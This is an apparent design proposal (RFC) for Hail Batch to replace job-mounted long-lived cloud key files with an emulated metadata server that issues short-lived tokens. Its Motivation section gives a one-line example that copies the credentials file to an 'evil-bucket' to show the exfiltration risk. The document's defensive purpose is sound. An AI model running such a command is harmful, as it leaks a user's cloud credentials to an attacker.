 ===============================================
Keyless Cloud Authentication in Hail Batch Jobs
===============================================

.. author:: Daniel Goldstein
.. date-accepted:: Leave blank. This will be filled in when the proposal is accepted.
.. ticket-url:: Leave blank. This will eventually be filled with the
                ticket URL which will track the progress of the
                implementation of the feature.
.. implemented:: Leave blank. This will be filled in with the first Hail version which
                 implements the described feature.
.. header:: This proposal is `discussed at this pull request <https://github.com/hail-is/hail-rfc/pull/0>`_.
            **After creating the pull request, edit this file again, update the
            number in the link, and delete this bold sentence.**
.. sectnum::
.. contents::
.. role::

In a Hail Batch pipeline, all user code runs under one of two identities associated
with the underlying cloud platform. On the user's computer, code runs as the user's
human identity. Inside a Batch job running in the cloud, the job is running as a
Hail-managed identity created for that user on signup. We will refer to this
identities as the user's Human Identity and the Robot Identity, respectively.

In the current system, Batch jobs are given access to the users' robot identity
through a file planted in the job's filesystem containing the identity's
credentials. In GCP, the credentials are a GSA key file. In Azure, the credentials
are a username/password for a AAD Service Principal. These credentials are created,
stored, and rotated by the Hail Batch system. 


Motivation
----------

Exposing long-lived credentials to user jobs poses a security risk,
as these credentials could be easily exfiltrated by the user or any malicious
code the user inadvertantly runs. The following is all that needs to run to
exfiltrate these credentials.

.. code-block:: python
   j.command('gcloud storage cp $GOOGLE_APPLICATION_CREDENTIALS gs://evil-bucket/')

Hail operators rotate GSA keys quarterly, so such an exfiltration could provide
a malicious actor access to all resources granted to the robot identity for up
to 90 days.

Cloud providers avoid persisting long-lived credentials on user machines through
the Metadata Server interface, an HTTP endpoint available on a
`link-local https://en.wikipedia.org/wiki/Link-local_address`_ address which can
issue access tokens for the identity assigned to the virtual machine. Available
metadata in GCP is described [here](https://cloud.google.com/compute/docs/metadata/predefined-metadata-keys). This interface has the following advantages:

- Unlike long-lived keys, these tokens are short-lived (e.g. 1 hour), reducing
  the potential attack window following exfiltration.
- The metadata server can be configured only to issue certain scopes, so the
  operations a job can perform may be restricted. It is not possible to scope
  GSA keys and AAD SP client secrets.

This proposal seeks to provide an emulated metadata server to Batch jobs and remove
jobs' dependence on long-lived credentials.

Removing this dependency also opens the door to future work of removing
long-lived credentials entirely from the system in favor of alternative approaches
to gaining access tokens from the cloud identity providers (discussed briefly 
in Inspiration & Alternatives).


Proposed Change Specification
-----------------------------

Batch jobs access credentials on the filesystem through the
``$GOOGLE_APPLICATION_CREDENTIALS``/``$AZURE_APPLICATION_CREDENTIALS``
environment variables (EVs). Under this change, the files and EVs will still be
available but their use will be deprecated in the documentation.

Currently, Batch uses firewall rules to block access to the metadata server for
user jobs, permitting users access would allow them to impersonate the batch worker.
This proposal would allow packets from jobs destined to ``169.254.169.254`` but
redirect those packets to a web server owned by the Batch Worker.
The Batch Worker can then use the
credentials for the job in question to generate access tokens on behalf of the
robot identity and distribute them upon request.

The following sequence diagrams illustrate how a Batch job obtains credentials
to access a cloud resource in the current system and under the proposed change.
The diagrams use GCP-specific terms and URLs, but the interaction is largely
the same in Azure.


Current System
==============

+-----+                                                +-----+              +-----+
| Job |                                                | IAM |              | GCS |
+-----+                                                +-----+              +-----+
   | --------------------------------------------------\  |                    |
   |-| Cook up request for access token using key file |  |                    |
   | |-------------------------------------------------|  |                    |
   |                                                      |                    |
   | https://www.googleapis.com/oauth2/v4/token           |                    |
   |----------------------------------------------------->|                    |
   |                                                      | ----------------\  |
   |                                                      |-| Validate key  |  |
   |                                                      | |---------------|  |
   |                                                      |                    |
   |                          Access Token scoped for GCS |                    |
   |<-----------------------------------------------------|                    |
   |                                                      |                    |
   | Access Token                                         |                    |
   |-------------------------------------------------------------------------->|
   |                                                      |                    | -----------------------------------\
   |                                                      |                    |-| Validate access token and scopes |
   |                                                      |                    | |----------------------------------|
   |                                                      |                    |
   |                                                      |               File |
   |<--------------------------------------------------------------------------|
   |                                                      |                    |


Proposed Model
==============

+-----+                                                                                +---------+                                              +-----+              +-----+
| Job |                                                                                | Worker  |                                              | IAM |              | GCS |
+-----+                                                                                +---------+                                              +-----+              +-----+
   |                                                                                        |                                                      |                    |
   | http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token      |                                                      |                    |
   |--------------------------------------------------------------------------------------->|                                                      |                    |
   |                                                                                        | --------------------------------------------------\  |                    |
   |                                                                                        |-| Cook up request for access token using key file |  |                    |
   |                                                                                        | |-------------------------------------------------|  |                    |
   |                                                                                        |                                                      |                    |
   |                                                                                        | https://www.googleapis.com/oauth2/v4/token           |                    |
   |                                                                                        |----------------------------------------------------->|                    |
   |                                                                                        |                                                      | ----------------\  |
   |                                                                                        |                                                      |-| Validate key  |  |
   |                                                                                        |                                                      | |---------------|  |
   |                                                                                        |                                                      |                    |
   |                                                                                        |                          Access Token scoped for GCS |                    |
   |                                                                                        |<-----------------------------------------------------|                    |
   |                                                                                        |                                                      |                    |
   |                                                                           Access Token |                                                      |                    |
   |<---------------------------------------------------------------------------------------|                                                      |                    |
   |                                                                                        |                                                      |                    |
   | Access Token                                                                           |                                                      |                    |
   |------------------------------------------------------------------------------------------------------------------------------------------------------------------->|
   |                                                                                        |                                                      |                    | -----------------------------------\
   |                                                                                        |                                                      |                    |-| Validate access token and scopes |
   |                                                                                        |                                                      |                    | |----------------------------------|
   |                                                                                        |                                                      |                    |
   |                                                                                        |                                                      |               File |
   |<-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
   |                                                                                        |                                                      |                                      |


It is worth emphasizing that the purpose of this feature is *not* to provide a
fully complete and compliant metadata server to Hail Batch. Rather, the aim is to provide the
minimum functionality necessary to allow Hail libraries and popular first-party
tools like `gcloud` and `az` the ability to obtain short-lived credentials without
exposing key files to user code. As such, an implementation may implement just the
endpoints necessary to run the below examples for at least one version of `gcloud`/`az`
and all supported versions of `hail`.


Examples
--------

Under the proposed change, the following Batch job commands should succeed:

.. code-block:: python
   j.command('gcloud storage ls <MY_BUCKET>')
   j.command('hailctl batch submit <MY_SCRIPT>')


Effect and Interactions
-----------------------

This change adds a method through which jobs can obtained short-lived access
tokens without directly accessing long-lived credentials. With such a solution
in place, we can eventually remove the long-lived credentials from job containers,
mitigating the risk of exfiltration.

So long as the firewall rules are correctly configured to redirect metadata traffic
to the Batch worker, there should be no adverse interactions with the existing
system as such traffic was previously forbidden.


Inspiration & Alternatives
--------------------------

We can look to the Kubernetes project for examples of integrating with cloud
identity providers. In particular, we will examine [GKE's Workload Identity](https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#what_is).
Workload identity allows pods to obtain credentials for GCP IAM identities. To
do so, GKE runs the [GKE Metadata Server](https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#metadata_server)
which functions similarly to what is described in this proposal.

The difference arises in how the metadata server fulfills the user's request for
an access token. Unlike in this proposal, GKE nodes do not hold IAM credentials.
Instead, it uses OIDC to "trade" a Kubernetes Service Account credential for a
[preconfigured IAM credential](https://cloud.google.com/kubernetes-engine/docs/concepts/workload-identity#credential-flow). This has the advantage of not needing to distribute IAM
credentials in GKE and enabling fine-grained mapping between GKE and IAM identities.
However, OIDC is not easily applicable in Hail Batch because Batch is not an
identity provider. We could remove the storage and distribution of key files in GCP by
using [IAM Service Account Impersonation](https://cloud.google.com/docs/authentication/use-service-account-impersonation), but that is outside the scope of this RFC.
